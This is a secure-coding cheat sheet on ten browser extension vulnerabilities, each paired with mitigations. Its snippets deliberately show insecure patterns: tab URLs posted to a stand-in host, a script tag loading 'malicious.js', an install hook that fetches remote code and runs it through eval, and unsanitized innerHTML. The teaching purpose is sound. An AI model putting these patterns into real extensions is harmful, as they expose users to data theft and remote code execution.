 # Browser Extension Security Vulnerabilities Cheat Sheet

## 1. Permissions Overreach

### Vulnerability: Permissions Overreach

Browser extensions sometimes request more permissions than they actually need.  
This can grant them access to all tabs, browsing history, and even sensitive  
user data. If an extension is compromised, it could lead to serious privacy  
risks.

### Example: Permissions Overreach

```json
{
  "manifest_version": 3,
  "name": "My Extension",
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage"
  ]
}
```

### Mitigation: Permissions Overreach

Follow the Principle of Least Privilege (PoLP) and request only the  
permissions that are absolutely necessary. Use optional permissions whenever  
possible instead of granting full access upfront. Regularly audit and remove  
any permissions that are no longer needed.

## 2. Data Leakage

### Vulnerability: Data Leakage

Some extensions unintentionally expose user data by sending browsing activity  
or personal details to external servers without proper security measures.

### Example: Data Leakage

```javascript
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status === 'complete') {
    fetch('http://example.com/track', {
      method: 'POST',
      body: JSON.stringify({ URL: tab.URL })
    });
  }
});

### Mitigation: Data Leakage

Always use HTTPS for all communications to prevent data interception.
Limit data collection and be transparent by clearly stating what data is  
collected in a Privacy Policy. Implement user consent mechanisms before  
collecting or sending any personal data.

## 3. Cross-Site Scripting (XSS)

### Vulnerability: Cross-Site Scripting (XSS)

If user input is not properly sanitized, attackers can inject malicious  
scripts into web pages, potentially stealing user data or performing  
unauthorized actions.

### Example: Cross-Site Scripting (XSS)

```javascript
let userInput = document.getElementById('input').value;
document.getElementById('output').innerHTML = userInput; // No sanitization

### Mitigation: Cross-Site Scripting (XSS)

Implement Content Security Policy (CSP) to block inline scripts.
Use libraries like DOMPurify to sanitize user input before displaying it.
Avoid using innerHTML and instead use textContent to prevent execution of  
injected scripts.

## 4. Insecure Communication

### Vulnerability: Insecure Communication

Some extensions send sensitive data over unsecured HTTP connections,  
making it vulnerable to interception by attackers.

### Example: Insecure Communication

```javascript
fetch('http://example.com/api/data');

### Mitigation: Insecure Communication

Always use HTTPS for external communications to prevent data theft.
Validate server responses before processing them to ensure data integrity.

## 5. Code Injection

### Vulnerability: Code Injection

An extension that dynamically loads scripts from an untrusted source can be  
exploited to inject and execute malicious code.

### Example: Code Injection

```javascript
let script = document.createElement('script');
script.src = 'http://example.com/malicious.js';
document.body.appendChild(script);

### Mitigation: Code Injection

Use CSP (Content Security Policy) to restrict script sources.
For more details, refer to the  
[CSP Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html).
Avoid using eval() and innerHTML as they can execute malicious code.
Prefer using extension messaging APIs instead of injecting scripts into web pages.

## 6. Malicious Updates

### Vulnerability: Malicious Updates

If an extension fetches updates from an untrusted server,  
an attacker could push malicious updates to all users.

### Example: Malicious Updates

```javascript
chrome.runtime.onInstalled.addListener(() => {
  fetch('http://example.com/update-script.js')
    .then(response => response.text())
    .then(eval); // Unsafe!
});

### Mitigation: Malicious Updates

Sign extension updates with digital signatures to ensure authenticity.
Instead of fetching updates within the extension, rely on updates from the  
extension marketplace.
See ["Don’t inject or incorporate remote scripts"](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Security_best_practices).
Implement integrity checks before executing any fetched code.

## 7. Third-Party Dependencies

### Vulnerability: Third-Party Dependencies

Using outdated or vulnerable third-party libraries in an extension can  
introduce security risks if those libraries have known exploits.

### Example: Third-Party Dependencies

```json
{
  "dependencies": {
    "vulnerable-lib": "1.0.0"
  }
}

### Mitigation: Third-Party Dependencies

Regularly audit third-party dependencies for security vulnerabilities.
Use tools like npm audit or OWASP Dependency-Check to detect risks.
Prefer actively maintained libraries with frequent security updates.

## 8. Lack of Content Security Policy (CSP)

### Vulnerability: Lack of Content Security Policy (CSP)

Without a strict CSP, attackers can inject scripts into an extension’s  
web pages, increasing the risk of cross-site scripting (XSS) attacks.

### Example: Lack of Content Security Policy (CSP)

```json
{
  "manifest_version": 3,
  "name": "My Extension",
  "content_security_policy": "default-src 'self'"
}

### Mitigation: Lack of Content Security Policy (CSP)

Define a strict CSP in the extension’s manifest.json file.
Use nonce-based or hash-based policies to allow only trusted scripts.
Block execution of inline scripts and restrict third-party content sources.

## 9. Insecure Storage

### Vulnerability: Insecure Storage

Storing sensitive data like authentication tokens in localStorage or other  
unsecured locations makes it easy for attackers to access.

### Example: Insecure Storage

```javascript
localStorage.setItem('token', 'my-secret-token'); // No encryption

### Mitigation: Insecure Storage

Store sensitive data in Chrome Storage API, which provides better security  
than localStorage.
Encrypt stored data before saving it locally.
Never hardcode API keys or credentials within the extension code.

## 10. Insufficient Privacy Controls

### Vulnerability: Insufficient Privacy Controls

If an extension does not clearly define how it collects and handles user data,  
it could lead to privacy violations and unauthorized data usage.

### Example: Insufficient Privacy Controls

```json
{
  "manifest_version": 3,
  "name": "My Extension",
  "description": "A cool extension with no privacy policy."
}

### Mitigation: Insufficient Privacy Controls

Implement a clear privacy policy that explains data collection practices.
Allow users to opt out of data collection.
Disclose data-sharing practices to comply with GDPR, CCPA, and other privacy regulations.

## Conclusion

By following these security best practices, developers can build safer  
browser extensions and protect users from privacy and security threats.  
Always prioritize least privilege, encryption, and secure coding  
principles when developing extensions.

🔹 References:
[Google Chrome Extension Security Guide](https://developer.chrome.com/docs/extensions/mv3/security/)  
[Mozilla Firefox Extension Security Best Practices](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Security_best_practices)

